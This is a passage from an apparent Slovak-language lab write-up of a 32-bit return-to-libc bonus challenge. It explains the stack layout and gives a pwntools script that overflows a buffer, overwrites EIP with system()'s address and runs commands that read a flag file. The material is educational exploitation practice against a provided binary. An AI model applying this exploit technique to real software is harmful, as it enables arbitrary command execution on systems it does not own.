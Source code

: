 ## 5.4 Ret-to-libc

- Bonusová výzva: viete miesto vlastného shellkódu použiť návrat do libc? Nemusí to zobraziť práve flag, stačí keď to spraví niečo originálne. Libc sme pribalili :D.

### 32bit

Bonus som robil podľa tohto obrázka, kde je na stacku najprv system call, ktorý nahrádza return pointer, za system call býva exit call, ale v tomto prípade si tam môžem dosadiť vpodstate hocičo a nemalo by to prekážať v exploite. A nakoniec sú argumenty pre system(), to znamená, že stavba útoku bude podobná ako pri shellcode injection. 

![](image-15.png)

Na útok som opäť použil python pwntools

```py
from pwn import *


padding = b"\x90" * 272
eip = p32(0x08051ff0) # system()
nop = b"\x90" * 4 #  exit()
buff_pointer = p32(0xffffd490)
nop_1 = b"\x90" * 40
string = b"id && ls -la && cat 002-flag/flag.txt"

exploit = padding +  eip + nop + buff_pointer + nop_1 + string

with open ('payload_bonus', 'wb') as f:
        f.write(exploit)
```
